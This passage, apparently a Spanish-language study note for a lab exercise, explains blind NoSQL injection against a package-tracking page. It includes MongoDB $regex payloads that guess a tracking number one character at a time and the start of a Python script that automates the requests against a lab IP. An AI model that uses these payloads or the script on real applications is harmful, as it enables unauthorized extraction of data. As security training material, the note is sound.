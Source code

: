 Una pagina realiza el tracking de paquetes a travez del codigo de envio, si la query es valida o retorna algun registro devuelve un mensaje, caso contrario devuleve un mensaje de advertencia.

![[Pasted image 20230502161029.png]]

Podemos abusar esto usando el operador **regex** para adivinar, en este caso, el codigo de envio. La informacion en este caso esta siendo enviada en formato **JSON**:

![[Pasted image 20230502161151.png]]

y tiene la siguiente logica en el backend:

```javascript
db.tracking.find({
    trackingNum: <trackingNum from JSON>
});
```

vemos que si enviamos un codigo que no existe bota el siguiente mensaje: `This tracking number does not exist`, no sabemos cual es la longitud del codigo ni cual es, pero a traves del operador **regex** podemos ir fuzzeando uno por uno los caracteres:

podemos preguntar si el codigo empieza con el numero **2**:

```json
{"trackingNum":{"$regex":"^2.*"
}}
```

![[Pasted image 20230502161727.png]]

vemos que no empieza con **2**, pero si cambiamos a **3** para ver si comienza con ese numero:

```json
{"trackingNum":{"$regex":"^3.*"
}}
```

![[Pasted image 20230502161850.png]]

vemos que devuelve otro mensaje, lo que da a entender que ese caracter es correcto.

Podemos hacer esto para todos los caracteres que tiene el codigo hasta que veamos que devuelve otro mensaje con el rastreo del codigo encontrado.

podemos hacer esto con el **intruder**:

![[Pasted image 20230502162225.png]]

#### Automating Script

```python
#!/usr/bin/python3

import requests
import json
from pwn import *


# make request
def request(t):
    r = requests.post(
        "http://138.68.170.86:32408/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "Franz" in r.text #part of success response

# Dump the tracking number
trackingNum = "" # Tracking number 
```